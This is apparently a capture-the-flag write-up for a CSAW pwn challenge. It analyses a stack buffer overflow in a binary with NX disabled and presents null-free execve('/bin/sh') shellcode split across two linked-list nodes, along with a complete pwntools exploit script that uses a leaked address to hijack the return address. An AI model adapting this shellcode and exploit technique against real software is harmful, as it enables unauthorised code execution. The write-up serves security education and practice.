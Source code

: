 # Reversing (The Problem)
The clue was: "Linked lists are great! They let you chain pieces of data together"

Running checksec on the binary gives the following result:

![alt text](checksec.png)

This gives us a few clues already:
1. NX is disabled and there are RWX segments, which points to possible shellcode injection.
2. Full RELRO means that we can't overwrite the GOT.
3. No stack canary, which points to a possible buffer overflow vulnerability.

Running the program, it asks twice for 15 bytes of data, to store on two separate linked list nodes, node 1 and node 2. Then it leaks the second node's address through the "next" pointer in the first node.
Finally, it asks for our initials and then prints a goodbye message using our input.

Let's check it out in IDA:


![alt text](nononode.png)

Here we can confirm that we are only allowed to store the 15 bytes the program asks for, so no overflows in this part. However, we can see a call to the goodbye function which, I assume, is where the programs asks for our initials and says good bye.

![alt text](goodbye_overflow.png)

And indeed, we see the stack frame growing 16 bytes, and fgets reading 0x20 bytes into [rbp - 3], which means we have 29 bytes of overflow. 

Testing it out wields the following result:

![alt text](segfault.png)

Aha! Just as we expected. So, there's our buffer overflow. With this, we should have enough space to overwrite the saved return address. Let's find out the offset between our input and the saved return address in gdb.

![alt text](offset.png)

The highlighted value is what we want to overwrite and it's 11 bytes away from where our input is stored.

Now the only thing left to know is where the nodes are, relative to each other, so we can have the big picture of what's going on.
Again using gdb, we can see that node 2 (lower address) is higher than node 1 (higher address) on the stack, 32 bytes appart.

![alt text](node_off.png)
(node 1 is filled with A's (0x41) and node 2 is filled with B's (0x42))

# The Solution

Recap: 
We have a leak from an address where we can store 15 bytes of data and we know the offset from this address to the other address where we can store another 15 bytes. 
From checksec, we know the binary doesn't have NX enabled, so we can execute code on the stack.

I solved this challenge by injecting shellcode in both nodes, and jumping between them with a short jump to save space. The script was developed in python using the pwntools library.

We have to keep in mind that fgets stops when it sees a \x00, so our shellcode can't have any of those.

```assembly
   ; complement of "/bin/sh\x00"
   mov rbx, 0xff978cd091969dd0
   not rbx
   jmp short $+20

   xor rsi, rsi
   push 59
   pop rax
   push rbx
   mov rdi, rsp

   syscall
```

First, the complement of "/bin/sh\x00" is moved into the rbx register, and then, before we push rbx we run a not on it. This way, we can push "/bin/sh\x00" without any 0's in our code.
Then I found the exact offset on gdb to where we wanted our code to jump and hardcoded it. The rest is straightforward x86-64, avoiding instructions with 0's in them.
This code is 27 bytes long and calls sys_execve("/bin/sh\x00", null, null). It's split into 15 bytes in node 2 and 12 bytes in node 1.


```python
#!/usr/bin/env python2.7
from pwn import *
binary_path = "./shellpointcode"

SERVER = "pwn.chal.csaw.io"
PORT = 9005
# Change to False to interact with the server
local = False
if local:
   p = process(binary_path, timeout=9999)
else:
   p = remote(SERVER, PORT, timeout=9999)

"""
    xor rsi, rsi
    push 59
    pop rax
    push rbx
    mov rdi, rsp

    syscall
"""
node_1 = "\x48\x31\xf6\x6a\x3b\x58\x53\x48\x89\xe7\x0f\x05"

"""
    mov rbx, 0xff978cd091969dd0
    not rbx
    jmp short $+20
"""
node_2 = "\x48\xbb\xd0\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd3\xeb\x12"

padding = 'A'*11

p.sendline(node_1)
p.sendline(node_2)
p.recvuntil("node.next:")

# parse the leaked address
node_2_addr = p.recvline()
"""
we add 8 to the leaked address, because our input is at 
offset 8 from the start of node 2 which is the leaked address, being the first 8 bytes reserved to the pointer to the next node on the list.
"""
rip = p64(int(node_2_addr, 16) + 8)
p.sendline(padding + rip)
p.interactive()
```

Now we run the script and get the flag!

![alt text](win.png)

\- STT bl4ck